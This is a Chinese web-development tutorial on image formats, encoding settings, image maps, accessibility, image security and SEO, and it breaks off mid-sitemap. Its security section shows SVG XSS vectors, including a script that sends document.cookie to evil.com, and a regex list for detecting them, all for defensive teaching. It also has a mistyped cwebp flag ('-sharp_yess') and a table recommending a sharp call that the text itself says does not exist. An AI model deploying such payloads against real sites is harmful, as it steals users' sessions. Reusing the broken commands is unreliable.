


# 图像（02）：图像格式详解、参考资料与更多阅读

## 图像格式详解

选择合适的图像格式是性能优化的关键环节，不同格式各有优劣。

### 传统格式

#### JPEG（Joint Photographic Experts Group）

**特点：**

- 有损压缩，适合照片和复杂图像
- 文件小，加载快
- 不支持透明
- 压缩质量可调（通常 60-80% 效果最佳）

**适用场景：**

- 照片、复杂图像
- 背景图片
- 不需要透明的图像

**优化建议：**

```html
<!-- 使用适当的压缩质量 -->


<!-- 使用渐进式 JPEG（Progressive JPEG） -->
<!-- 渐进式 JPEG 会先显示低质量版本，逐步清晰 -->
```

#### PNG（Portable Network Graphics）

**特点：**

- 无损压缩，质量高
- 支持透明（Alpha 通道）
- 文件相对较大
- 分为 PNG-8（256 色）和 PNG-24（真彩色）

**适用场景：**

- 需要透明背景的图像
- 图标、Logo
- 简单图形、截图

**优化建议：**

```html
<!-- 简单图标使用 PNG-8 -->


<!-- 需要半透明效果使用 PNG-24 -->

```

#### GIF（Graphics Interchange Format）

**特点：**

- 支持动画
- 仅支持 256 色
- 支持透明（但不支持半透明）
- 文件可能很大

**适用场景：**

- 简单动画
- 表情包
- 简单的动态图标

**替代方案：**

- 动画可考虑使用 WebP 动画或 APNG
- 视频内容建议使用 `<video>` 标签或 MP4 格式

### 现代格式

#### WebP

**特点：**

- 同时支持有损和无损压缩
- 支持透明（Alpha 通道）
- 压缩率比 JPEG 高 25-35%
- 比 PNG 文件小 26%
- 支持动画
- 浏览器支持度良好（约 97%）

**适用场景：**

- 几乎所有图像场景
- 替代 JPEG 和 PNG

**使用示例：**

```html
<!-- 使用 picture 元素提供降级方案 -->
<picture>
  <source srcset="image.webp" type="image/webp" />
  <source srcset="image.jpg" type="image/jpeg" />
  
</picture>

<!-- 服务端内容协商（需要服务器配置） -->

```

**转换工具：**

```bash
# 使用 cwebp 工具转换
cwebp -q 80 input.jpg -o output.webp

# 批量转换
for file in *.jpg; do
  cwebp -q 80 "$file" -o "${file%.jpg}.webp"
done
```

#### AVIF

**特点：**

- 最新图像格式，基于 AV1 视频编码
- 压缩率最高（比 WebP 再小 20-50%，比 JPEG 小 50% 以上）
- 支持 HDR（高动态范围）和宽色域（Wide Color Gamut）
- 支持透明和动画
- 浏览器支持度良好（Chrome、Firefox、Safari 16+、Edge 均已支持，全球覆盖率约 95%）

**适用场景：**

- 追求极致压缩率的场景
- HDR 图像
- 照片和复杂图像的首选格式
- 现代浏览器项目

**使用示例：**

```html
<picture>
  <source srcset="image.avif" type="image/avif" />
  <source srcset="image.webp" type="image/webp" />
  <source srcset="image.jpg" type="image/jpeg" />
  
</picture>
```

**转换工具：**

```bash
# 使用 avifenc 工具转换
avifenc input.jpg output.avif

# 使用 squoosh CLI（Google 已归档 CLI 仓库，@squoosh/cli npm 包仍可用；
# 维护中的社区 fork 为 @frostoven/squoosh-cli）
npx @squoosh/cli --avif input.jpg

# 使用 sharp（Node.js）
npx sharp-cli -i input.jpg -o output.avif -f avif --quality 65
```

**AVIF 编码参数建议：**

| 参数            | 推荐值 | 说明                                  |
| --------------- | ------ | ------------------------------------- |
| 质量（quality） | 60-80  | 照片类 65 即可达到 JPEG 80 的视觉质量 |
| 速度（speed）   | 4-6    | 编码速度与压缩率的平衡点              |
| 色度子采样      | 4:2:0  | 照片推荐；需要锐利文字/线条时用 4:4:4 |

::: tip
AVIF 在相同视觉质量下文件体积远小于 JPEG 和 WebP，建议作为首选格式，通过 `<picture>` 提供回退即可兼顾旧浏览器。
:::

#### SVG（Scalable Vector Graphics）

**特点：**

- 矢量图形，无限缩放不失真
- 基于 XML，可编辑、可编程
- 文件小（简单图形）
- 支持动画和交互
- 可内联使用

**适用场景：**

- 图标、Logo
- 简单图形、插画
- 图表、数据可视化
- 需要缩放的图形

**使用方式：**

```html
<!-- 外部引用 -->


<!-- 内联 SVG -->
<svg width="100" height="100" viewBox="0 0 100 100">
  <circle cx="50" cy="50" r="40" fill="blue" />
</svg>

<!-- 作为 CSS 背景 -->
<style>
  .icon {
    background-image: url("icon.svg");
  }
</style>
```

**优化建议：**

```html
<!-- 使用 SVGO 压缩 SVG -->
<!-- 原始 SVG -->
<svg width="100" height="100">
  <title>图标</title>
  <desc>一个蓝色圆形</desc>
  <circle cx="50" cy="50" r="40" fill="#0000FF" />
</svg>

<!-- 优化后 -->
<svg width="100" height="100" aria-label="图标">
  <circle cx="50" cy="50" r="40" fill="#00F" />
</svg>
```

### 格式选择指南

根据以下决策树选择合适的图像格式：



### WebP / AVIF 编码参数深度调优

不同场景下，编码参数的选择对文件体积和视觉质量有显著影响。以下是经过实践验证的参数推荐矩阵：

#### WebP 编码参数矩阵

| 场景 | quality | method | 过滤强度 | 推荐工具 | 说明 |
|------|---------|--------|----------|----------|------|
| **照片类（风景/人像）** | 75-82 | 5-6 | 默认 | cwebp/sharp | 有损压缩，视觉无损 |
| **产品图（电商）** | 80-85 | 6 | 弱 | cwebp/sharp | 需保留细节和色彩准确性 |
| **截图/UI 界面** | 90-100（无损）或 85+（有损） | 6 | 强 | cwebp | 文字/线条需高保真 |
| **图标/Logo** | 无损模式 | 6 | - | cwebp | 文件小且无失真 |
| **头像缩略图** | 70-75 | 4 | 默认 | sharp | 小尺寸可接受轻微质量损失 |
| **背景大图** | 65-75 | 5-6 | 默认 | cwebp/sharp | 视觉优先，追求最小体积 |

```bash
# WebP 编码示例：高质量照片
cwebp -q 80 -m 6 -sharp_yess input.jpg -o output.webp

# WebP 编码示例：无损压缩（适合图标）
cwebp -lossless -z 9 input.png -o output.webp

# 使用 sharp（Node.js）批量处理
npx sharp-cli -i photo.jpg -o photo.webp -f webp \
  --webp-quality 80 --webp-effort 6
```

#### AVIF 编码参数矩阵

| 场景 | quality | speed | 色度子采样 | tileRowsLog2 | 说明 |
|------|---------|-------|------------|--------------|------|
| **照片类（风景/人像）** | 60-70 | 5-6 | 4:2:0 | 0 | 最佳压缩率/质量平衡 |
| **产品图（电商）** | 65-75 | 5 | 4:2:2 | 0 | 需更好色彩还原 |
| **HDR 图像** | 70-80 | 6 | 4:2:0 | 0 | 充分利用 AVIF 的 HDR 能力 |
| **截图/UI 界面** | 70-80 | 4-5 | 4:4:4 | 0 | 文字/线条需要全分辨率色度 |
| **头像缩略图** | 55-65 | 6 | 4:2:0 | 0 | 小尺寸场景可激进压缩 |
| **Web 发布首选** | 63-68 | 6 | 4:2:0 | 0 | 综合推荐值 |

```bash
# AVIF 编码示例：标准照片
avifenc --min 55 --max 65 --speed 6 input.jpg output.avif

# AVIF 编码示例：高画质产品图
avifenc --min 65 --max 75 --speed 5 --yuv 422 input.jpg output.avif

# 使用 sharp（Node.js）
npx sharp-cli -i photo.jpg -o photo.avif -f avif \
  --avif-quality 65 --avif-effort 6

# 使用 squoosh CLI（支持多种格式对比）
npx @squoosh/cli --avif --webp input.jpg
```

::: tip **编码参数选择原则**
- **quality 值不是越高越好**：JPEG 80+ 和 AVIF 65+ 在大多数场景下已达到视觉无损
- **method/speed 权衡**：值越大压缩越好但编码越慢，CI/CD 构建时可用最大值
- **照片 vs 截图**：照片用 4:2:0 色度子采样即可；含文字的图像建议 4:4:4
:::

### 格式对比表

| 格式 | 压缩类型  | 透明 | 动画 | 文件大小 | 浏览器支持 | 推荐度     |
| ---- | --------- | ---- | ---- | -------- | ---------- | ---------- |
| JPEG | 有损      | ✗    | ✗    | 中       | ★★★★★      | ⭐⭐⭐     |
| PNG  | 无损      | ✓    | ✗    | 大       | ★★★★★      | ⭐⭐⭐     |
| GIF  | 无损      | 部分 | ✓    | 大       | ★★★★★      | ⭐⭐       |
| WebP | 有损/无损 | ✓    | ✓    | 小       | ★★★★☆      | ⭐⭐⭐⭐⭐ |
| AVIF | 有损/无损 | ✓    | ✓    | 最小     | ★★★★☆      | ⭐⭐⭐⭐⭐ |
| SVG  | 无损      | ✓    | ✓    | 最小     | ★★★★★      | ⭐⭐⭐⭐⭐ |

### 实用工具

**在线压缩工具：**

- [Squoosh](https://squoosh.app/) - Google 出品的图像压缩工具
- [TinyPNG](https://tinypng.com/) - PNG/JPEG 智能压缩
- [ImageOptim](https://imageoptim.com/) - Mac 桌面工具

**命令行工具：**

```bash
# WebP 转换
cwebp -q 80 input.png -o output.webp

# AVIF 转换
avifenc input.jpg output.avif

# PNG 压缩
pngquant --quality=65-80 input.png --output output.png
optipng -o7 input.png

# JPEG 优化
jpegoptim --max=80 input.jpg

# SVG 优化
svgo input.svg -o output.svg
```

**构建工具集成：**

```javascript
// Webpack 配置示例
module.exports = {
  module: {
    rules: [
      {
        test: /\.(png|jpe?g|gif|webp)$/i,
        use: [
          {
            loader: "image-webpack-loader",
            options: {
              mozjpeg: { quality: 80 },
              webp: { quality: 80 },
              pngquant: { quality: [0.65, 0.8] }
            }
          }
        ]
      }
    ]
  }
}
```

## 图像超链接

在 HTML 网页中使用图像时，可以像文字一样为图像设置超链接，还可以将图像切割成不同的区域，分别设置超链接，这样的区域被称为热区。为整幅图像文件设置超链接非常简单，只需要将 `` 标签包含在 `<a>` 超链接标签中，并将超链接标签的 `href` 属性设置为指定的链接地址即可

```html
<a href="链接地址" target="目标窗口的打开方式"></a>
```

使用示例：

```html
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a><br />
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a>
<a href="images/link.png" target="_blank"></a>
```

### 图像热区链接

为图像设置超链接时，除了对整个图像进行设置，还可以将图像划分成不同的区域进行设置，划分成的不同区域被称为热区，而包含热区的图像被称为映射图像。使用 usemap 属性来设置映射图像名称（注意：映射图像名称前需要加 `#` 符号），该名称需要通过 `<map>` 标签和 `<area>` 标签的结合来设置：

```html

<map name="映射图像名称">
  <area shape="热区形状" coords="热区坐标" href="链接地址" />
</map>
```

该语法首先需要在 `<map>` 标签中使用 name 属性定义映射图像的名称，然后在 `<area>` 标签中，定义热区的形状、坐标，以及链接地址。`<area>` 标签中的属性介绍如下：

- shape 属性：定义热区形状，可以取值为 rect（矩形区域）、circle（圆形区域）以及 poly（多边形区域）
- coords 属性：设置热区坐标，对于不同形状来说，coords 取值也不同。
  - 如果热区形状为 rect，则 coords 取值为 left、top、right 和 bottom，即矩形两个对角的点坐标；
  - 如果热区形状为 circle，则 coords 取值为 center-x、center-y 和 radius，即圆形的圆心坐标 (_x_,_y_) 与半径
  - 如果热区形状为 poly，则 coords 取值需要按照顺序（可以是逆时针，也可以是顺时针）取多边形各个点的 _x_、_y_ 坐标值

- href 属性：设置热区的链接地址


```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>设置图像热区链接</title>
    <link href="css/mr-style.css" rel="stylesheet" type="text/css" />
  </head>

  <body>
    <div id="mr-cont">
      
      <map name="mr-hotpoint">
        <!--left、top、right和bottom-->
        <area
          shape="rect"
          coords="45,126,143,203"
          href="img/ad.jpg"
          title="电脑精装"
          target="_blank" />
        <area
          shape="rect"
          coords="410,80,508,174"
          href="img/ad4.png"
          title="常用家电"
          target="_blank" />
        <area
          shape="rect"
          coords="30,250,130,350"
          href="img/ad1.png"
          title="手机数码"
          target="_blank" />
        <area
          shape="rect"
          coords="430,224,528,318"
          href="img/ad3.png"
          title="鲜货直达"
          target="_blank" />
      </map>
    </div>
  </body>
</html>
```

**热区坐标工具：**

可以使用在线工具或图像编辑软件（如 Photoshop、GIMP）来获取精确的坐标值。

**可访问性改进：**

```html

<map name="navigation">
  <area shape="rect" coords="0,0,100,50" href="/home" alt="首页" title="返回首页" />
  <area shape="rect" coords="100,0,200,50" href="/about" alt="关于我们" title="了解我们" />
</map>
```

**注意事项：**

1. 每个 `<area>` 都应提供 `alt` 属性
2. 使用 `title` 提供额外提示信息
3. 确保热区大小适合点击（移动端至少 44x44px）
4. 考虑移动端的触摸体验

## 可访问性

图像的可访问性对于视障用户和搜索引擎都至关重要。

### alt 属性最佳实践

**信息性图像：**

```html
<!-- ✅ 好的 alt 文本 -->


<!-- ❌ 不好的 alt 文本 -->


```

**装饰性图像：**

```html
<!-- ✅ 使用空 alt -->


<!-- 或使用 CSS 背景图 -->
<div class="decorative-line" role="presentation" aria-hidden="true"></div>
```

**功能性图像：**

```html
<!-- ✅ 描述功能 -->
<button type="button">
  
</button>

<!-- 如果按钮已有文本，图像可以装饰性 -->
<button type="button">
  
  打印
</button>
```

### figure 和 figcaption

使用语义化标签为图像添加说明：

```html
<figure>
  
  <figcaption>拍摄于2024年1月，使用 Canon EOS R5</figcaption>
</figure>
```

### ARIA 属性

```html
<!-- 装饰性图像 -->


<!-- 复杂图像使用 aria-describedby -->

<p id="diagram-desc">系统由前端、后端和数据库三层组成...</p>
```

## 图像安全与防护体系

图像资源在 Web 安全中是一个常被忽视的攻击面。从防盗链、XSS 到隐私泄露，构建完整的图像安全体系至关重要。

### Hotlink 防盗链

防盗链（Hotlink Protection）防止其他网站直接引用你的图像 URL，避免**带宽盗用**和**未授权使用**。

::: danger 风险
被盗链时，你的服务器带宽和 CDN 流量费用会被他人消耗，且无法控制图像的使用场景。
:::

#### 方案 1：Referrer-Policy（前端）

```html
<!-- ✅ 推荐：在引用第三方图像时不发送 Referrer -->


<!-- 或在 <head> 中全局设置（影响所有请求） -->
<meta name="referrer" content="no-referrer" />
```

```html
<!-- ❌ 不推荐：默认会发送完整 Referrer，暴露来源页面 URL -->

```

**Referrer-Policy 可选值：**

| 值 | 行为 | 适用场景 |
|---|------|----------|
| `no-referrer` | 不发送任何 Referrer | 引用外部 CDN / 隐私敏感 |
| `strict-origin` | 仅发送 Origin（不含路径） | 一般场景推荐 |
| `strict-origin-when-cross-origin` | 同源完整，跨域仅 Origin | **默认推荐值** |
| `origin-when-cross-origin` | 同源完整，跨域含路径 | 需要跨域统计时 |
| `unsafe-url` | 始终发送完整 URL | ⚠️ 可能泄露敏感信息 |

#### 方案 2：Nginx 配置（服务端）

```11-Nginx基础概述
# ✅ Nginx 防盗链配置
location ~* \.(jpg|jpeg|png|gif|webp|avif|svg)$ {
    valid_referers none blocked server_names
                   *.yourdomain.com
                   ~\.google\.
                   ~\.bing\.

    if ($invalid_referer) {
        # 返回 403 或重定向到默认图片
        return 403;
        # 或: rewrite ^/ /static/default-image.jpg last;
    }

    expires 30d;
    add_header Cache-Control "public, immutable";
}

# 更精细的配置：允许特定 Referer 模式
location /images/ {
    valid_referers none blocked yourdomain.com
                   *.yourdomain.com;

    if ($invalid_referer) {
        return 403;
    }
}
```

#### 方案 3：签名 URL + 时效性（CDN 层）

```javascript
// 使用阿里云 OSS 签名 URL 示例
const crypto = require('crypto')

function generateSignedUrl(objectKey, expiresIn = 3600) {
  const expiration = Math.floor(Date.now() / 1000) + expiresIn
  const signStr = `GET\n\n\n${expiration}\n/${bucket}/${objectKey}`
  
  const signature = crypto
    .createHmac('sha1', accessKeySecret)
    .update(signStr)
    .digest('base64')
  
  const encodedSign = encodeURIComponent(signature)
  
  return `https://${bucket}.oss-cn-beijing.aliyuncs.com/${objectKey}` +
         `?OSSAccessKeyId=${accessKeyId}&Expires=${expiration}&Signature=${encodedSign}`
}

// 生成的 URL 在 1 小时后自动失效，即使被盗链也无法长期使用
console.log(generateSignedUrl('images/photo.jpg'))
// → https://bucket.oss...?OSSAccessKeyId=xxx&Expires=1718xxx&Signature=xxx
```

### SVG XSS 攻击向量与防护

SVG 本质上是 XML 文档，可以包含 `<script>` 标签、事件处理器等，如果被恶意利用可导致 **XSS（跨站脚本攻击）**。

#### 常见 SVG 攻击向量

```xml
<!-- ❌ 危险：内联 SVG 包含脚本（用户上传场景） -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')">
  <circle cx="50" cy="50" r="40" />
</svg>

<!-- ❌ 危险：使用 foreignObject 嵌入 HTML -->
<svg xmlns="http://www.w3.org/2000/svg">
  <foreignObject>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
    </body>
  </foreignObject>
</svg>

<!-- ❌ 危险：SVG 动画触发脚本 -->
<svg xmlns="http://www.w3.org/2000/svg">
  <set attributeName="onmouseover" to="alert(1)" />
</svg>

<!-- ❌ 危险：data URI 中的 SVG -->
" />
```

#### 防护策略

```javascript
/**
 * ImageSanitizer — 用户上传图片的安全扫描器
 *
 * 功能：
 * - 检测文件头 Magic Bytes
 * - 扫描 SVG 中的危险标签/属性
 * - 转换为安全格式（如 PNG）
 */
class ImageSanitizer {
  /**
   * 检测文件是否为真实图片（非伪装的 SVG/HTML）
   * @param {File|Blob} file
   * @returns {Promise<{safe: boolean, reason?: string}>}
   */
  async scan(file) {
    const buffer = await file.slice(0, 32).arrayBuffer()
    const header = new Uint8Array(buffer)

    // 1. 检查 Magic Bytes
    const signatures = [
      { sig: [0xFF, 0xD8, 0xFF], type: 'JPEG' },     // JPEG
      { sig: [0x89, 0x50, 0x4E, 0x47], type: 'PNG' }, // PNG
      { sig: [0x47, 0x49, 0x46, 0x38], type: 'GIF' }, // GIF
      { sig: [0x52, 0x49, 0x46, 0x46], type: 'WebP' }, // WebP (RIFF....WEBP)
      { sig: [0x00, 0x00, 0x00, 0x18, 0x66, 0x74, 0x79, 0x70], type: 'AVIF' }, // AVIF
    ]

    const isKnownImage = signatures.some(({ sig }) =>
      sig.every((byte, i) => header[i] === byte)
    )

    if (!isKnownImage) {
      return { safe: false, reason: '未知的文件格式签名' }
    }

    // 2. 如果是 SVG，进行内容扫描
    if (this._isSvg(header)) {
      return this._scanSvgContent(file)
    }

    return { safe: true }
  }

  /** 扫描 SVG 内容中的危险元素 */
  async _scanSvgContent(file) {
    const text = await file.text()
    const lowerText = text.toLowerCase()

    // 危险模式列表
    const dangerousPatterns = [
      /<script[\s>]/i,
      /on\w+\s*=/i,           // 事件处理器
      /<foreignobject/i,
      /<use\s+href/i,
      /javascript:/i,
      /data:\s*text\/html/i,
      /expression\s*\(/i,     // CSS expression（IE）
      /url\s*\(\s*["']?\s*javascript:/i,
    ]

    for (const pattern of dangerousPatterns) {
      if (pattern.test(text)) {
        return { safe: false, reason: `检测到危险内容: ${pattern}` }
      }
    }

    // ✅ SVG 通过扫描但仍建议转换为栅格图
    return { 
      safe: true, 
      warning: 'SVG 已通过基础扫描，建议转为 PNG 后再存储',
      shouldConvertToRaster: true 
    }
  }

  _isSvg(header) {
    // SVG 文件通常以 <?xml 或 <svg 开头
    const str = String.fromCharCode(...header.slice(0, 4))
    return str.startsWith('<?xm') || str.startsWith('<svg')
  }
}

// ===== 使用示例 =====

const uploader = document.getElementById('file-input')
uploader.addEventListener('change', async (e) => {
  const file = e.target.files[0]
  if (!file) return

  const sanitizer = new ImageSanitizer()
  const result = await sanitizer.scan(file)

  if (!result.safe) {
    alert(`⚠️ 上传失败：${result.reason}`)
    return
  }

  console.log('✅ 图片通过安全检测')
  // 继续上传流程...
})
```

::: tip 生产环境建议
- **优先接受 JPEG/PNG/WebP**，拒绝或转换 SVG 上传
- 使用 **Canvas 重绘** 用户上传的图片（清除所有元数据和潜在 payload）
- 服务端使用 **imagemagick** 的 `-strip` 参数清除 EXIF 和注释
- 设置 **CSP（Content Security Policy）** 限制脚本执行
:::

### CSP img-src 指令配置

Content Security Policy（内容安全策略）的 `img-src` 指令可以严格控制图像的合法来源。

```html
<!-- HTTP 响应头中设置 CSP -->
<!--
Content-Security-Policy: default-src 'self'; 
                         img-src 'self' https://cdn.example.com data:;
                         script-src 'self'
-->
```

**常用 img-src 配置：**

| 配置值 | 含义 | 风险等级 |
|--------|------|----------|
| `'self'` | 仅允许同源 | 🟢 最安全 |
| `https://cdn.example.com` | 允许指定域名 | 🟢 安全 |
| `data:` | 允许 Data URI | 🟡 中等（有 XSS 风险） |
| `blob:` | 允许 Blob URI | 🟡 中等 |
| `*` | 允许任意来源 | 🔴 危险 |

```html
<!-- ✅ 推荐配置：限制为自有域名 + 可信 CDN -->
<meta http-equiv="Content-Security-Policy"
      content="img-src 'self' https://cdn.yourdomain.com https://images.your-cdn.com;" />

<!-- ❌ 危险配置：允许任意来源加载图像 -->
<meta http-equiv="Content-Security-Policy" content="img-src *;" />
```

### EXIF 隐私泄露风险

EXIF（Exchangeable Image File Format）元数据可能包含**拍摄设备、GPS 定位、拍摄时间**等敏感信息。

::: warning 隐患
用户上传的照片若未经处理直接公开访问，可能泄露其地理位置等隐私信息。
:::

```javascript
/**
 * ExifStripper — EXIF 元数据清除工具
 */
class ExifStripper {
  /**
   * 清除图像中的 EXIF 数据
   * @param {File} imageFile - 原始图像文件
   * @returns {Promise<Blob>} - 清除后的 Blob
   */
  static async strip(imageFile) {
    return new Promise((resolve, reject) => {
      const reader = new FileReader()
      
      reader.onload = () => {
        const img = new Image()
        
        img.onload = () => {
          // 创建 Canvas 并重新绘制（自动丢弃 EXIF）
          const canvas = document.createElement('canvas')
          canvas.width = img.naturalWidth
          canvas.height = img.naturalHeight
          
          const ctx = canvas.getContext('2d')
          ctx.drawImage(img, 0, 0)
          
          // 导出为新文件（不含任何元数据）
          canvas.toBlob(
            (blob) => resolve(blob),
            'image/jpeg',
            0.92
          )
        }
        
        img.onerror = reject
        img.src = reader.result
      }
      
      reader.onerror = reject
      reader.readAsDataURL(imageFile)
    })
  }
}

// ===== 使用示例 =====

uploadForm.addEventListener('submit', async (e) => {
  e.preventDefault()
  
  const file = fileInput.files[0]
  if (!file) return
  
  // 清除 EXIF 后再上传
  const cleanBlob = await ExifStripper.strip(file)
  
  const formData = new FormData()
  formData.append('image', cleanBlob, 'cleaned-' + file.name)
  
  await fetch('/api/upload', { method: 'POST', body: formData })
})
```

**服务端清除方案（Node.js + sharp）：**

```javascript
const sharp = require('sharp')

async function stripExif(inputPath, outputPath) {
  await sharp(inputPath)
    .rotate()              // 根据 EXIF Orientation 自动旋转后再丢弃 EXIF
    .toFile(outputPath)    // sharp 默认不保留元数据（EXIF 已丢弃，保留需显式 .withMetadata()）
  
  console.log(`✓ EXIF 已清除: ${outputPath}`)
}

// 注：sharp 的 .withMetadata() 是“保留元数据”的开关，不存在 .withMetadata(false) 写法
```

### 用户上传图片安全扫描策略汇总

| 安全威胁 | 攻击方式 | 防护措施 | 优先级 |
|---------|---------|---------|--------|
| **XSS** | SVG 内嵌 `<script>` / 事件处理器 | 禁止 SVG 上传或 sanitize；CSP | 🔴 高 |
| **带宽盗用** | 外站 `` 直接引用你的 URL | Nginx referer 检查；签名 URL | 🟡 中 |
| **隐私泄露** | EXIF GPS 坐标 / 设备信息 | Canvas 重绘；sharp `.withMetadata(false)` | 🔴 高 |
| **DoS** | 巨大图像 / 像素炸弹 | 限制文件大小；服务端 resize | 🔴 高 |
| **伪装攻击** | 伪造文件扩展名 / Magic Bytes | 检查文件头；MIME type 白名单 | 🟡 中 |

## 最佳实践

### 1. 始终提供 alt 属性

```html
<!-- ✅ 正确 -->


<!-- ❌ 错误 -->

```

### 2. 使用语义化 HTML

```html
<!-- ✅ 使用 figure -->
<figure>
  
  <figcaption>照片说明</figcaption>
</figure>

<!-- ❌ 避免 -->
<div>
  
  <p>照片说明</p>
</div>
```

### 3. 优化图像大小

- 使用适当的图像格式（WebP、AVIF）
- 压缩图像文件
- 提供多种尺寸（srcset）
- 使用懒加载（loading="lazy"）

### 4. 响应式设计

```html
<!-- ✅ 响应式图像 -->

```

### 5. 性能优化

```html
<!-- 首屏图像：立即加载，高优先级 -->


<!-- 非首屏图像：懒加载，低优先级 -->

```

### 6. 防止布局偏移

```html
<!-- ✅ 设置宽高属性 -->

```

### 7. 实战案例：商品列表图片

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>商品列表示例</title>
    <style>
      .product-list {
        max-width: 1200px;
        margin: 0 auto;
        display: grid;
        grid-template-columns: repeat(auto-fit, minmax(260px, 1fr));
        gap: 24px;
      }

      .product-card {
        border: 1px solid #eee;
        border-radius: 8px;
        padding: 16px;
      }

      .product-image {
        display: block;
        width: 100%;
        height: auto;
        margin-bottom: 12px;
      }

      .product-title {
        font-size: 16px;
        margin: 0 0 8px;
      }

      .product-price {
        color: #e91e63;
        font-weight: bold;
      }
    </style>
  </head>
  <body>
    <section class="product-list">
      <article class="product-card">
        <figure>
          <picture>
            <source srcset="phone-400.avif 400w, phone-800.avif 800w" type="image/avif" />
            <source srcset="phone-400.webp 400w, phone-800.webp 800w" type="image/webp" />
            
          </picture>
          <figcaption class="product-title">蓝色 128GB 智能手机</figcaption>
        </figure>
        <p class="product-price">¥3,999</p>
      </article>
    </section>
  </body>
</html>
```

## 图像 SEO 最佳实践

搜索引擎（Google、百度、Bing 等）无法直接"理解"图像内容，需要通过**结构化数据、语义化标签、文件命名规范**等信号来辅助理解。正确的图像 SEO 策略可以显著提升**图片搜索排名**和**网页整体 SEO 表现**。

### schema.org ImageObject 结构化数据

使用 JSON-LD 格式为页面中的关键图像添加 **Schema.org ImageObject** 结构化数据，帮助搜索引擎理解图像的语义信息。

```html
<!-- 在 <head> 或页面中嵌入 JSON-LD 结构化数据 -->
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "ImageObject",
  "name": "2024 年款蓝色 iPhone 15 Pro 正面展示图",
  "description": "苹果 iPhone 15 Pro 蓝色钛金属版本正面视角产品照片",
  "url": "https://cdn.example.com/products/iphone-15-pro-blue.webp",
  "contentUrl": "https://cdn.example.com/products/iphone-15-pro-blue.webp",
  "thumbnailUrl": "https://cdn.example.com/products/iphone-15-pro-blue-thumb.webp",
  "width": 1200,
  "height": 800,
  "encodingFormat": "image/webp",
  "uploadDate": "2024-03-15T08:00:00+08:00",
  "copyrightHolder": {
    "@type": "Organization",
    "name": "Your Brand Name"
  },
  "license": "https://creativecommons.org/licenses/by-sa/4.0/",
  "acquireLicensePage": "https://example.com/license",
  "creator": {
    "@type": "Person",
    "name": "张三"
  }
}
</script>
```

::: tip 关键字段说明
- **`contentUrl` / `url`**：必填，图像的实际访问地址
- **`width` / `height`**：推荐填写，帮助搜索引擎理解尺寸
- **`encodingFormat`**：推荐填写，如 `image/webp`、`image/jpeg`
- **`license`**：使用许可信息，有助于知识图谱构建
:::

### 文件名与 Alt 命名规范

| 场景 | ❌ 不推荐 | ✅ 推荐 | 说明 |
|------|----------|---------|------|
| **文件名** | `img_001.jpg`、`DSC_1234.png`、`截图(1).jpg` | `blue-iphone-15-pro-front-view.webp` | 使用描述性英文短横线命名 |
| **Alt 文本** | `图片`、`图像`、`001.jpg` | `蓝色钛金属 iPhone 15 Pro 正面展示图` | 准确描述内容，不含"图片"前缀 |
| **装饰性图** | `alt="分隔线图片"` | `alt=""` + `aria-hidden="true"` | 装饰性图像使用空 alt |
| **功能图标** | `alt="搜索图标"` | `alt="搜索"` 或按钮已有文本时 `alt=""` | 描述功能而非外观 |
| **复杂图表** | 一段超长文字 | 简要描述 + 用 `aria-describedby` 链接详细说明 | 平衡简洁与完整 |

```html
<!-- ✅ 完整示例：电商商品主图 -->
<figure itemscope itemtype="https://schema.org/ImageObject">
  
  <meta itemprop="width" content="1200" />
  <meta itemprop="height" content="800" />
  <meta itemprop="encodingFormat" content="image/webp" />
  <figcaption itemprop="caption">红色男士跑鞋 — 侧面视角高清图</figcaption>
</figure>
```

### sitemap-image.xml 模板

创建专门的**图像 Sitemap** 可以加速搜索引擎发现和收录你的图像资源。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9"
        xmlns:image="http://www.google.com/schemas/sitemap-image/1.1">

  <!-- 商品页 + 主图 -->
  <url>
    <loc>https://example.com/products/blue-iphone-15-pro</loc>
    <image:image>
      <image:loc>https://cdn.example.com/products/iphone-15-pro-blue.webp</image:loc>
      <image:title>蓝色 iPhone 15 Pro 产品图</image:title>
